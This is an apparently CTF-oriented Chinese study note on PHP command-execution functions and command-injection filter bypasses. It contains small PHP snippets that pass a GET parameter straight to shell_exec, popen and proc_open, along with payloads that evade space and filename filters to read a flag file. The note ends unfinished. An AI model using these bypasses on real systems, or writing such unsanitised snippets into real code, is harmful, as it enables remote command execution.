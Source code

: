 ```yaml
---
typora-copy-images-to: ./..\images
---
```


# 1.命令执行函数

**命令执行后面得加分号 ；**

### 1.system()

直接执行命令

### 2.exec($cmd,$Arrays)

只返回最后一行，返回所有需要输出的arrays

### 3.passthru（' '）

直接执行命令

### 4.shell_exec()

直接执行命令

```
 <?php highlight_file(__FILE__);
 $cmd = $_GET["cmd"];
 $output = shell_exec($cmd); 
 echo $output;
 ?> 
```

### 5.popen($cmd,$mode)

mode为'r'或'w' 无回显，读出后输出

```
 <?php
 highlight_file(__FILE__); 
 $cmd = $_GET["cmd"]; 
 $ben = popen($cmd,'r'); 
 while($s=fgets($ben))
 {   print_r($s); } 
 ?> 
```

### 6.proc_open 

```
 <?php
 header\("content-type:text/html;charset=utf-8"); 
 highlight_file(__FILE__);
 $cmd = $_GET["cmd"]; 
 $array =  array(   array("pipe","r"),  //标准输入 
 array("pipe","w"),  //标准输出内容   
 array("file","/tmp/error-output.txt","a")  //标准输出错误 ); 
 $fp = proc_open($cmd,$array,$pipes); //打开一个进程通道 
 echo stream_get_contents($pipes[1]);  //为什么是$pipes[1]，因为1是输出内容 
 proc_close($fp);
 ?> 
```



### 7.反引号

表示命令执行

### 8.eval（）

执行eval的参数

# 2.操作系统链接符

； 多个命令顺序执行，命令与命令之间相互独立

&多个命令顺序执行，命令与命令之间相互独立，&需要写为%26才有用

&& 前面命令执行成功则执行后面命令，前面错误后面也错误

| 将前面的输出作为后面命令的参数，只显示后面

|| 类似于if-else

# 3.空格过滤绕过

大括号{ls,-l}

$IFS代替空格 $IFS、$IFS&2、$IFS9、${IFS}

重定向字符< , <>

%09(Tab)   %20(Space)

# 4.文件名过滤

### 1.通配符

? 代替一个字符

'*' 自动匹配星号后面的

### 2.单引号双引号

'' ""

('cat fl""ag.p""hp ')

### 3.反斜线

cat f\lag.p\hp

### 4.特殊变量

$1,$9,$*,$@

fl$1ag.p$9hp

### 5.内敛执行

?cmd=passthru('a=fla;b=g;c=.ph;d=p;cat $a$b$c$d');

### 6.利用lunix中的环境变量

?cmd=passthru('echo $PATH'); 输出环境变量

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

第一位是0

echo f${PATH:5:1}   输出fl

# 5.常见文件读取命令绕过

1.tac

反向显示

2.

# 1.编码绕过
